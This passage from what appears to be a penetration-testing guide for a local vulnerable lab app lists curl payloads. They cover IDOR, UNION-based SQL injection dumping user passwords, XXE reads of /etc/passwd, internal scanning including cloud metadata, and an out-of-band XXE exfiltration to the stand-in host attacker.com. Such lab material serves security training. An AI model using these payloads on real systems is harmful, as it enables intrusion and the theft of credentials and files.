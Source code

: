 #### 5.3 Admin Panel IDOR
**Target**: `/admin` endpoint

```bash
# Access different user profiles in admin panel
curl "http://localhost:5000/admin?user_id=1"
curl "http://localhost:5000/admin?user_id=2"
curl "http://localhost:5000/admin?user_id=999"

# SQL injection in admin panel
curl "http://localhost:5000/admin?user_id=1' UNION SELECT 1,username,password,email,role FROM users-- "
```

### Phase 6: XXE (XML External Entity) Testing

#### 6.1 Basic XXE File Disclosure
**Target**: `/api/xml` endpoint

```bash
# Basic XXE payload
curl -X POST http://localhost:5000/api/xml \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<user><name>&xxe;</name></user>'

# Windows file disclosure
curl -X POST http://localhost:5000/api/xml \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///C:/Windows/System32/drivers/etc/hosts"> ]>
<user><name>&xxe;</name></user>'
```

#### 6.2 XXE for Internal Network Scanning
```bash
# Port scanning via XXE
curl -X POST http://localhost:5000/api/xml \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://127.0.0.1:22"> ]>
<user><name>&xxe;</name></user>'

# Internal service discovery
curl -X POST http://localhost:5000/api/xml \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/"> ]>
<user><name>&xxe;</name></user>'
```

#### 6.3 XXE Data Exfiltration
```bash
# Exfiltrate data to external server
curl -X POST http://localhost:5000/api/xml \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY % dtd SYSTEM "http://attacker.com/xxe.dtd">
%dtd; ]>
<user><name>&send;</name></user>'
```
